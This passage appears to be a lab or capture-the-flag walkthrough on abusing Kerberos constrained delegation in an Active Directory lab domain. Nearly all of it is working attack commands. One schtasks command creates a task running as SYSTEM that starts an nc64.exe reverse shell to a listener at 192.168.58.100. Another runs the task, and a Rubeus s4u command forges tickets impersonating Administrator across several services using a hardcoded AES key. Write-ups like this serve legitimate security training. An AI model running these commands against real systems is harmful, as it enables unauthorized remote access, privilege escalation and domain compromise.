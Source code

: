 <figure><img src="../.gitbook/assets/Pasted image 20240321121344.png" alt=""><figcaption></figcaption></figure>

Upload Rubeus and nc64.exe. You need to be system to abuse the constrained delegation, so create a new task that launch as system to get a reverse shell as it

{% code overflow="wrap" %}
```powershell
schtasks /create /S web /SC Weekly /RU "NT Authority\SYSTEM" /TN "hacker" /TR "powershell.exe -c 'C:\Users\Public\nc64.exe 192.168.58.100 4422 -e powershell.exe'"
```
{% endcode %}

and launch it with a listener open

```powershell
schtasks /Run /S web.academy.ninja.lan /TN "hacker"
```

Now use rubeus to forge the tickets and get a shell on share

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /user:frank /aes256:a0d676dd3e4d7673ec255caf010e1e350f1b09d8871b88eb01c4c8ba4217beac /impersonateuser:Administrator /msdsspn:"eventlog/share" /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```
{% endcode %}
